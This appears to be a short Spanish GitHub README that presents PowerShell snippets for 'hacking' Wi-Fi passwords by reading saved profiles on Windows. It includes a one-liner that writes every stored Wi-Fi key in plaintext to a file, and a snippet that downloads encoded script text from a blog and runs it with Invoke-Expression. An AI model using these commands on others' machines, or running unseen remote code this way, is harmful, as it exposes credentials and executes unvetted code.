 # Wlan-Profiles
Aplicación Wlan Profiles hackear contraseñas de wifi
Cómo ver la contraseña de una red WiFi a la que estás conectado en Windows 
Es muy fácil saber la contraseña de la red WiFi a la que estás conectado en Windows, te explicamos cómo.
Si ya te has conectado con tu PC o portátil Windows a una red con contraseña, y ahora quieres conectar 
también tu smartphone o alguien te pregunta la clave y no la recuerdas, es muy fácil “recuperarla” desde tu ordenador.
![](https://3.bp.blogspot.com/-oPb9wuB5nUk/WjRqB56LuCI/AAAAAAAAI3A/wonBBPq85QEbBQmgxkGoWDTxBNlMa6_mwCLcBGAs/s200/lpericena%2Bwifi.png)
https://www.lpericena.tk/2019/03/importar-perfiles-wlan-con-powershell.html

```
(netsh wlan show profiles) | Select-String “\:(.+)$” | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name=”$name” key=
clear)}>>wifi.txt
```
![](https://1.bp.blogspot.com/-MklkR5Po3Lk/XIvsQU3GKCI/AAAAAAAAOI4/2-lJrvpaGRYGL0DGn2JOuJJaBx722ITDACLcBGAs/s1600/powershell.png)
```
$url="https://www.jesusninoc.com/2017/01/24/hackear-wifi-con-powershell-script-codificado-en-base64/"
$result = Invoke-WebRequest $url
[String]$execute=$result.AllElements | Where class -eq 'crayon-pre' | %{$_.innerText}
Invoke-Expression "powershell -encodedcommand $execute"
```
![](https://4.bp.blogspot.com/-ShOocj2HPUM/XIuW5KbQhdI/AAAAAAAAOHc/pUdjWkNLFachuykLCPACzlIQGt-YYvtaACLcBGAs/s1600/Screenshot_94.png)
### Otros comandos 
- información del interfas del sistema.
Get-NetAdapter
- Para ver información de la interfaz de red WiFi.
Get-NetAdapter -Name Wi-Fi
- Mostrar cmdlets relacionados con el adaptador de red.
gcm -Noun netadapter | select name, modulename
- Utilizando netsh.
netsh wlan show networks mode=bssid



Sigueme en las redes Sociales:
- 🌎Blogger          https://lpericena.blogspot.com/
- 💡 Github            https://github.com/Pericena
- 🐤 twitter             https://twitter.com/LPericena
